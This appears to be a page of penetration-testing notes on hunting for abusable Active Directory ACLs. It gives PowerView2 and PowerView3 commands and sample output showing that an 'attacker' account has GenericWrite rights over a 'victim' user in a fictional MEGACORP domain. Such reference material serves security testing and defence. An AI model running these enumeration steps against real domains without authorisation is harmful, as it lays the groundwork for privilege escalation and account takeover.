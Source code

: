 

### Hunt for ACLs


#### PowerView2

Search for interesting ACLs:

```
PowerView2 > Invoke-ACLScanner -ResolveGUIDs
```

Check if the attacker "MEGACORP\sbauer" has `GenericWrite` permissions on the "jorden" user object:

```
PowerView2 > Get-ObjectAcl -samAccountName jorden -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericWrite" -and $_.IdentityReference -eq "MEGACORP\sbauer"}

InheritedObjectType   : All
ObjectDN              : CN=Jorden Mclean,OU=Athens,OU=Employees,DC=MEGACORP,DC=LOCAL  <== Victim (jorden)
ObjectType            : All
IdentityReference     : MEGACORP\sbauer  <== Attacker (sbauer)
IsInherited           : False
ActiveDirectoryRights : GenericWrite
PropagationFlags      : None
ObjectFlags           : None
InheritanceFlags      : ContainerInherit
InheritanceType       : All
AccessControlType     : Allow
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-3110
```


#### PowerView3

Search for interesting ACLs:

```
PowerView3 > Find-InterestingDomainAcl -ResolveGUIDs | ? {$_.IdentityReferenceClass -match "user"}

AceType               : AccessAllowed
ObjectDN              : CN=Jorden Mclean,OU=Athens,OU=Employees,DC=MEGACORP,DC=LOCAL
ActiveDirectoryRights : GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-3110  <== Victim (jorden)
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3167813660-1240564177-918740779-3102  <== Attacker (sbauer)
AccessMask            : 131112
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```
